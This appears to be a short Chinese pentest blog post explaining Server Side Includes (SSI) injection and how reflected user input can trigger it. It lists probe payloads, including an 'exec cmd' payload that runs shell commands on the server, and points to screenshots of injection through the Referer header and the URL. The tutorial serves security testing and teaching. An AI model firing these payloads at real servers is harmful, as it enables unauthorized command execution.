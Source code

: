 +++
date = "2017-06-08T11:20:15+08:00"
description = ""
draft = false
tags = ["injection"]
title = "SSI注入"
topics = ["Pentest"]

+++

### 0x00 SSI
> SSI (Server Side Includes)是HTML页面中的指令，在页面被提供时由服务器进行运算，以对现有HTML页面增加动态生成的内容，而无须通过CGI程序提供其整个页面，或者使用其他动态技术。

> 在很多场景中，用户输入的内容可以显示在页面中，一个存在反射XSS漏洞的页面，如果输入的payload不是xss代码而是ssi的标签，服务器又开启了ssi支持的话就会存在SSI漏洞

> 若注入点在url中则可能需要进行url编码

### 0x01 payload
> ```
"-->'-->`--><!--#set var="a" value="123"--><!--#set var="b" value="654"--><!--#echo var="a"--><!--#echo var="b"-->

<!--#echo var="DATE_LOCAL" -->

<!--#exec cmd="dir" -->
```

### 0x02 示例
* Referer被输出到了页面中

> {{% fluid_img src="/img/post/ssi_in_url_request.png" alt="ssi漏洞" %}}
<br><br>
> {{% fluid_img src="/img/post/ssi_in_url_response.png" alt="ssi漏洞" %}}

* url中的数据被输出到页面中(有时候url中的payload需要url编码)

> {{% fluid_img src="/img/post/ssi_in_referer_request.png" alt="ssi漏洞" %}}
<br><br>
{{% fluid_img src="/img/post/ssi_in_referer_response.png" alt="ssi漏洞" %}}